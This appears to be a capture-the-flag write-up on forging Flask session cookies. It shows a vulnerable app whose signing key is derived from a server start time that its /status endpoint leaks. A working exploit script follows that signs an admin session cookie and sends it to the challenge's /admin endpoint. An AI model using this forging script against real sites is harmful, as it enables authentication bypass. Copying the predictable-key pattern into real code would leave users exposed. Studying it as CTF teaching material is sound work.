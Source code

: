 # Forging Session Cookies

## Flask Cookies

### Technique 1:

#### The vulnerable server code:

***app.py***

```py
#!/usr/bin/env python3
from flask import Flask, request, render_template, jsonify, abort, redirect, session
import uuid
import os
from datetime import datetime, timedelta
import hashlib
app = Flask(__name__)
server_start_time = datetime.now()
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
app.secret_key = secure_key
app.config['PERMANENT_SESSION_LIFETIME'] = timedelta(seconds=300)
flag = os.environ.get('FLAG', "flag{this_is_a_fake_flag}")
secret = uuid.UUID('31333337-1337-1337-1337-133713371337')
def is_safe_username(username):
    """Check if the username is alphanumeric and less than 20 characters."""
    return username.isalnum() and len(username) < 20
@app.route('/', methods=['GET', 'POST'])
def main():
    """Handle the main page where the user submits their username."""
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.values['username']
        password = request.values['password']
        if not is_safe_username(username):
            return render_template('index.html', error='Invalid username')
        if not password:
            return render_template('index.html', error='Invalid password')
        if username.lower().startswith('admin'):
            return render_template('index.html', error='Don\'t try to impersonate administrator!')
        if not username or not password:
            return render_template('index.html', error='Invalid username or password')
        uid = uuid.uuid5(secret, username)
        session['username'] = username
        session['uid'] = str(uid)
        return redirect(f'/user/{uid}')
@app.route('/user/<uid>')
def user_page(uid):
    """Display the user's session page based on their UUID."""
    try:
        uid = uuid.UUID(uid)
    except ValueError:
        abort(404)
    session['is_admin'] = False
    return 'Welcome Guest! Sadly, you are not admin and cannot view the flag.'
@app.route('/admin')
def admin_page():
    """Display the admin page if the user is an admin."""
    if session.get('is_admin') and uuid.uuid5(secret, 'administrator') and session.get('username') == 'administrator':
        return flag
    else:
        abort(401)
@app.route('/status')
def status():
    current_time = datetime.now()
    uptime = current_time - server_start_time
    formatted_uptime = str(uptime).split('.')[0]
    formatted_current_time = current_time.strftime('%Y-%m-%d %H:%M:%S')
    status_content = f"""Server uptime: {formatted_uptime}<br>
    Server time: {formatted_current_time}
    """
    return status_content
if __name__ == '__main__':
    app.run("0.0.0.0", port=9999)

```

#### The vulnerability:

- The app has two interesting endpoints: `GET /admin` and `GET /status`.

- The endpoint `GET /admin` returns the flag in the HTTP response if the values of the current session object's keys 'is_admin' and 'username' turn out to be `True` and `'administrator'` respectively *(Ignore the condition involving `uuid.uuid5(secret, 'administrator')` as it doesn't contain any session specific data and will always return `True`)*.

- The `GET /status` provides the details about the Server's uptime and the Server's current time. These details help in calculating the time at which the Server started. 

The information about the Server's start time is significant because it has been utilized by the app to construct the app's secret key which is used to sign the session cookies. With the secret key determined, an attacker could forge a valid session cookie that contains the values as determined by the attacker.

#### The exploit code:

```py
import sys
import zlib
from itsdangerous import base64_decode
import ast
import requests
from flask.sessions import SecureCookieSessionInterface
import time
import hashlib
import uuid

class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


def encode(secret_key, session_cookie_structure):
    """ Encode a Flask session cookie """
    try:
        app = MockApp(secret_key)

        session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)

        return s.dumps(session_cookie_structure)
    except Exception as e:
        return "[Encoding error] {}".format(e)
        raise e


def key_finder():
    
    server_start_str = "secret_key_20240922011015"
    secure_key = hashlib.sha256(server_start_str.encode()).hexdigest()
    print(secure_key)
    test_cookie = encode(secure_key, '{"is_admin":True,"uid":"99ddc5db-d144-5fe1-af05-9eb3ffcc3721","username":"administrator"}')
    print(test_cookie)
    url = "http[:]//chal.<REDACTED>.club:9999/admin"
    s = requests.Session()
    r = s.get(url, cookies = {"session": test_cookie})
    
    print(r.text)
            

key_finder()

```
